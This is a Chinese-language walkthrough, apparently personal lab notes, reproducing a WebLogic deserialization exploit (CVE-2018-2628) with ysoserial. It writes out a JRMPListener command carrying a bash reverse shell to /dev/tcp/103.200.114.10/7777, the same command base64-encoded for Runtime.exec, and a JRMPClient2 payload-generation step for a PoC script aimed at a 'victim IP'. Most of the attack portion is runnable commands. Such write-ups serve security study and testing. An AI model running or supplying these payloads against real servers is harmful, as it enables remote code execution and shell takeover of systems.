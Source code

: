 进入docker 成功创建文件

![image-20200903152916242](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903152916242.png)

尝试反弹shell到JRMP服务器上失败![image-20200903161124618](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200903161124618.png)

https://www.angelwhu.com/paper/2018/11/10/rmi-deserialization-attack-method-record/#3-%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E9%97%AE%E9%A2%98（连接中反弹成功 但利用步骤略有不同）

 

复现反弹shell

启动JRMP Server：

```
java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener [listen port] Jdk7u21 [command]
```

[command] : 需要执行的命令
[listen port] : JRMP Server监听的端口。



填写反弹shell command

```
java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener 9999 Jdk7u21 'bash -i >& /dev/tcp/103.200.114.10/7777 0>&1'
```

**此处特别注意！！！**

由于 Runtime.getRuntime().exec() 中不能使用管道符等bash需要的方法，我们需要进行一次编码。

转化工具链接 : http://www.jackson-t.ca/runtime-exec-payloads.html

![image-20201016170428906](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201016170428906.png)

最后的指令

```
java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener 9999 Jdk7u21 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDMuMjAwLjExNC4xMC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}'
```

![image-20201016170654174](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201016170654174.png)

![image-20201016170717571](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201016170717571.png)

```
java -jar ysoserial-0.1-cve-2018-2628-all.jar JRMPClient2 192.168.0.100:8888 | xxd -p | tr -d $'\n' && echo
```

 生成一串字符数据![image-20201016171049012](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201016171049012.png)

将weblogic_poc.py 中的 PYLOAD进行替换dip为受害者ip
